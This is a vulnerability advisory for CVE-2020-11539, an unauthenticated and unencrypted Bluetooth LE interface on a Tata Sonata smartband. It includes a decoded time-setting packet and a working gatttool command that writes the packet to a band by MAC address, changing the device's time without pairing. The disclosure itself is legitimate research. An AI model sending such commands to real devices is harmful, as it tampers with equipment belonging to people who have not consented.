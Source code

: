 # CVE-2020-11539: Improper Access Control in Tata Sonata Smartband

## Information
**Description:**  It has been identified that the smart band has no pairing (mode 0 BLE security level) The data being transmitted over the air is not encrypted. Adding to this, the data being sent to the smart band doesn't have any authentication or signature verification makes any attacker to control the parameter of the smart device. 
   
**Versions Affected:** Smart SF Rush - 1.12

**Researcher:** Sayli Ambure (https://twitter.com/sayli_ambure)  

**MITRE CVE link:** https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11539

## Proof-of-Concept Exploit
### Description

The following packet is reversed and found to be for changing the time, more packets can be reversed by extracting hcisnoop dump from your phone. 

1. **Data value:** 00870e00141401060712052b051e

   |**Data Hexdump:** | 00 | 87 | 0e | 00 | 14 | 14 | 01 | 06 | 07 | 12 | 05 | 2b | 05 | 1e |
   |------------------|----|----|----|----|----|----|----|----|----|----|----|----|----|----|
   | **Data Decimal:**| 00 |135 | 14 | 00 | 20 | 20 | 01 | 06 | 07 | 18 | 05 | 43 | 05 | 30 | 
  
  *  **00 87:** Header of the packet
   
  *  **0e 00:** Type of the pacekt
   
  *  **14 14:** Year in hex (2020)
   
  *  **01 06:** Month and Day ( Jan 6th)
   
  *  **07 12:** Hour and Minute in hex ( 07:18AM)
   
  *  **05 :** Seconds
   
2. Send following Gatttool command for controlling the time of the smartband:

`gatttool -t random -b <mac-address> --char-write-req -a 0xe -n 00870e00141401060712052b051e`
 

### Proof of Concept Video:

<a href="http://www.youtube.com/watch?feature=player_embedded&v=VDl2FOAivOk
" target="_blank"><img src="http://img.youtube.com/vi/VDl2FOAivOk/0.jpg" 
 width="240" height="180" border="10" /></a>
